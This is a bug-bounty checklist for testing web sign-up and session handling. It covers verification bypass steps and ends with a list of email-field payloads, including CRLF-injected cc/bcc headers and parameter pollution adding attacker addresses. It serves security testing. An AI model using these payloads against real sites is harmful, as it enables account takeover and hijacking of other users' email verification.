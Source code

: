 - [ ] <span style="color:#06ea6c">HTML Injection</span> ( Email Triggering , forms, meta tags .... )
- [ ] Failure to Invalidate Session > On <span style="color:#06ea6c">Logout</span> (Client and Server-Side)
    - In order for this to qualify for the client and server-side variant, you'd need to demonstrate that the session identifiers are not removed from the browser at the time of log out
- [ ] <span style="color:#06ea6c">No Password Policy</span> -> Password:`123`

> ***[[Registration]] Abuse***

 - [ ] <span style="color:#06ea6c">Username/Email Enumeration > Non-Brute Force</span>
- [ ] <span style="font-weight:bold; color:#ff0000">SQL Injection</span>
- [ ] Signup and don't confirm the your email -> change email to others emails like `suppor@bugcrowd.com` -> confirm old email -> ***Email Verification Bypass***
- [ ] Email Verification link <span style="color:#06ea6c">Doesn't Expire After Email Change</span>
- [ ] Verification link **leaked in the response**
- [ ] Verification Bypass via **Response Manipulation**
- [ ] **[Ability to bypass partner email confirmation to take over any store given an employee email](https://hackerone.com/reports/300305)**
- [ ] Signup and don't confirm the your email `emailA@gmail.com` -> change email to others emails like `emaiB@gmail.com` -> confirm new email -> Re-change email to your old Email -> ***Email Verification Bypass***
- [ ] *<span style="font-style:italic; font-style:italic; font-weight:bold; color:#ff0000">ATO</span> or **Duplicate Registration** by **manipulating email parameter (BAC)**
	```python
	H0tak88r@bugcrowdninja.com
	MAybeeEE@GmaiL.coM
	h0tak88r+1@bugcrowdninja.com
	h0tak88r@bugcrowdninja.com a
	h0tak88r%00@bugcrowdninja.com
	h0tak88r%09@bugcrowdninja.com
	h0tak88r%20@bugcrowdninja.com
	victim@gmail.com@attacker.com
	victim@gmail.com@attacker.com
	victim@mail.com%0A%0Dcc:hacker@mail.com
	victim@mail.com%0A%0Dbcc:hacker@mail.com
	{"email":["victim@mail.com","hacker@mail.com"]}
	victim@mail.com&email=hacker@mail.com
	victim@mail.com,hacker@mail.com
	victim@mail.com%20hacker@mail.com
	victim@mail.com|hacker@mail.com
	victim@mail.com&Email=attacker@mail.com
	email@email.com,victim@hack.secry
	email@email“,”victim@hack.secry
	email@email.com:victim@hack.secry
	email@email.com%0d%0avictim@hack.secry
	%0d%0avictim@hack.secry
	%0avictim@hack.secry
	victim@hack.secry%0d%0a
	victim@hack.secry%0a
	victim@hack.secry%0d
	victim@hack.secr%00
	victim@hack.secry{{}}
	victim@gmail.com\n
	```
